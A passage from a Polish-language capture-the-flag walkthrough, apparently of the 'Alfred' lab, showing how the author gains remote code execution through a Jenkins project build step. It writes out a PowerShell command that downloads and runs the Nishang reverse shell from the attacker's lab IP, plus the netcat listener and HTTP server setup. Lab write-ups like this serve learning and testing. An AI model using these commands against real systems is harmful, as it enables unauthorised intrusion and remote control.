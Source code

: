 ![](/alfred_login_8080.bmp)

Po zdobyciu danych uwierzytelniających, loguję się w ustawieniach projektu. Znajduję tam możliwość zdalnego wykonania kodu.

![](/alfred_projekt.bmp)

Zgodnie z podpowiedzią w opisie zadania pobieram [odwrotną powłokę](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), przechodzę do edycji pliku i na końcu dodaję `nvoke-PowerShellTcp -Reverse -IPAddress 10.8.78.81 9999`. Następnie w danym katalogu poleceniem `python3 -m http.server 9000` otwieram serwer do wystawienia pliku z odwrotną powłoką, również w kolejnej zakładce w konsoli otwieram `nc -nvlp 9999`. W ustawieniach projektu za pomocą funkcji `Build` wprowadzam polecenie `powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.78.81:9000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.78.81 -Port 9999` klikam `Addp` i `Save`. Następnie uruchamiam kod.

![](/alfred_projekt_build.bmp)